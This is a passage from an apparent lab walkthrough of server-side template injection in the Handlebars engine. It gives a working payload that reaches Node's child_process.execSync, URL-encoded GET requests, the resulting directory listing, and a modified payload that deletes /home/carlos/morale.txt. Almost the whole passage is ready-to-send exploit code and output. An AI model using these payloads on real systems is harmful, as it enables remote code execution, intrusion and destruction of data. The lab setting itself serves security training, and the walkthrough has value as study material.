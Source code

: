 ```
            {{/with}}
            {{/each}}
        {{/with}}
        {{/with}}
    {{/with}}
    {{/with}}
```
3. copy, urlencode and send request:
```
    GET /?message={{%23with+"s"+as+|string|}}++{{%23with+"e"}}++++{{%23with+split+as+|conslist|}}++++++{{this.pop}}++++++{{this.push+(lookup+string.sub+"constructor")}}++++++{{this.pop}}++++++{{%23with+string.split+as+|codelist|}}++++++++{{this.pop}}++++++++{{this.push+"return+require('child_process').execSync('ls+-la')%3b"}}++++++++{{this.pop}}++++++++{{%23each+conslist}}++++++++++{{%23with+(string.sub.apply+0+codelist)}}++++++++++++{{this}}++++++++++{{/with}}++++++++{{/each}}++++++{{/with}}++++{{/with}}++{{/with}}{{/with}} HTTP/1.1
```
response:
```
    drwxr-xr-x 1 carlos carlos   45 Jul 25 21:28 .
    drwxr-xr-x 1 root   root     20 Jul 20 04:18 ..
    -rw-rw-r-- 1 carlos carlos  132 Jul 25 21:28 .bash_history
    -rw-r--r-- 1 carlos carlos  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 carlos carlos 3771 Feb 25  2020 .bashrc
    -rw-r--r-- 1 carlos carlos  807 Feb 25  2020 .profile
    -rw-rw-r-- 1 carlos carlos 6816 Jul 25 21:28 morale.txt
```

4. tweak the code to delete carlos:
```
    {{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
        {{this.pop}}
        {{this.push (lookup string.sub "constructor")}}
        {{this.pop}}
        {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').execSync('rm /home/carlos/morale.txt');"}}
            {{this.pop}}
            {{#each conslist}}
            {{#with (string.sub.apply 0 codelist)}}
                {{this}}
            {{/with}}
            {{/each}}
        {{/with}}
        {{/with}}
    {{/with}}
    {{/with}}
```
**request**:
GET {{%23with+"s"+as+|string|}}++{{%23with+"e"}}++++{{%23with+split+as+|conslist|}}++++++{{this.pop}}++++++{{this.push+(lookup+string.sub+"constructor")}}++++++{{this.pop}}++++++{{%23with+string.split+as+|codelist|}}++++++++{{this.pop}}++++++++{{this.push+"return+require('child_process').execSync('rm+/home/carlos/morale.txt')%3b"}}++++++++{{this.pop}}++++++++{{%23each+conslist}}++++++++++{{%23with+(string.sub.apply+0+codelist)}}++++++++++++{{this}}++++++++++{{/with}}++++++++{{/each}}++++++{{/with}}++++{{/with}}++{{/with}}{{/with}} HTTP/1.1
